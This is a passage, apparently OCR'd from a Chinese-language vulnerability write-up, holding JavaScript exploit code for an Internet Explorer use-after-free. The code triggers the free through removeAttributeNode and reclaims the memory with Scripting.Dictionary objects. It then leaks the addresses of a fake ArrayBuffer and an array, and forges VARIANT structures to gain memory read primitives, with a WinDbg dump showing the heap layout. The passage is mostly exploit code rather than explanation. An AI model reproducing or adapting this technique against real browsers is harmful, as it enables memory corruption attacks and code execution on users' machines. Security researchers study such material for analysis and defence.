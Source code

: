 ```
function alloc2() {
           // 创建字典对象
           var dic1 = new ActiveXObject('Scripting.Dictionary')
           var dic2 = new ActiveXObject('Scripting.Dictionary')
           dic2.add(0, 1)
           dic1.add(0, dic2.items())
           dic1.add(1, fake)
           dic1.add(2, arr)
           for (i = 3; i < 0x20010 / 0x10; ++i)
               dic1.add(i, 0x12341234)
           return dic1.items()
       }
 var alloc = alloc2()
 // 触发valueof函数回调
 ele.removeAttributeNode(att)
 //再次重引用removeAttributeNode后被释放的内存
 hd0.nodeValue = alloc
 //通过hd2.nodevalue读取重用后hd0.nodevalue内存
 var leak = new Uint32Array(dump(hd2.nodeValue))
 //fake
 var pAbf = leak[6]
 //arr[]地址
 var pArr = leak[10];

```

```
1:023:x86> dd 0c0b8890
0c0b8890  00000000 00000000 098202b8 00000000 dict2.items();
0c0b88a0  00000009 00000000 09dcdec4 00000000 fakeBuf ArrayBuffer(0x100)
0c0b88b0  00000009 00000000 09dcdf04 00000000 arr  [{}]
0c0b88c0  00000003 00000000 12341234 00000000
0c0b88d0  00000003 00000000 12341234 00000000
0c0b88e0  00000003 00000000 12341234 00000000
0c0b88f0  00000003 00000000 12341234 00000000
0c0b8900  00000003 00000000 12341234 00000000

```

然后取出 fakeBuf 的地址, 并刷新 nodevalue 的内存写入前 40 个字节地址.

```
function flush() {
            hd1.nodeValue = (new alloc1()).nodeValue
            hd2.nodeValue = 0
            hd2 = hd1.cloneNode()
        }
var VT_I4 = 0x3;
var VT_DISPATCH = 0x9;
var VT_BYREF = 0x4000;
var bufArr = new Array(0x10);
var fakeArr = new Uint32Array(fake);
for (var i = 0; i < 0x10; i++) {
     setData(i + 1, new Data(VT_BYREF | VT_I4, pAbf + i * 4));
}
flush();

```
